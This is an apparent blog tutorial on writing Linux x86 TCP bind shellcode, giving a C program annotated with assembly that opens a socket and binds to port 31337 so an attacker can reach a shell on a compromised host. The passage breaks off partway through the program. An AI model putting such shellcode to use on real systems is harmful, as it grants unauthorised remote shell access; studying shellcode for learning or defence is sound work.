 ## TCP Bind Shellcode

A Linux x86 assembly language program to enable a tcp connection to bind to a shell on a compromised host. The compromised system will open a socket and bind a shell to the port, this will allow an attacker to connect to the system via the port and issue shell commands.

To build anything you normally need a foundation, this one being a working C language program that will do what is required. From this code it is possible to then work backwards, refining and optimising the code on the way. Comments are added to enable more complete cross referencing while reading between the differing code implementations, though the code should be fairly self explanatory. The assembly language snippets where taken, and altered slightly, from a disassembly of the binary using objdump, e.g.

*$ objdump -d tcpbindshellc -M intel*

Output has not been reproduced due to length and the usefulness of wasting blog space.

Note:
Socket code is among the most standard of code to be found on the internet and it seldom differs, I would be loathe to claim all code in this post as my own as it is based off research and examples found in places too numerous to mention, my feet are most definitely planted on the shoulders of giants.
```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <errno.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
 
int
main(void) 
{
    int sockfd, dupsockfd;  
    struct sockaddr_in hostaddr, clientaddr;   
    socklen_t sinsz;
     
    /*
    push ecx        ; push null
    push byte 0x6   ; push IPPROTO_TCP value
    push byte 0x1   ; push SOCK_STREAM value
    push byte 0x2   ; push AF_INET
    mov ecx, esp    ; ecx contains pointer to socket() args
    int 0x80        ; make the call, eax contains sockfd                       
    mov esi, eax    ; esi now contains sockfd
    */
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
 
    /*  
    push edx        ; push null
    push word 0x697a ; push port number 31337      
    push word bx    ; push AF_INET
    mov ecx, esp    ; ecx contains pointner to sockaddr struct
    push byte 0x10  ; push sinsz
    push ecx        ; push hostaddr
    push esi        ; push sockfd
    mov ecx, esp    ; ecx contains pointer to bind() args
    int 0x80
    */
    hostaddr.sin_family = AF_INET;         
    hostaddr.sin_port = htons(31337);      
    hostaddr.sin_addr.s_addr = INADDR_ANY; 
```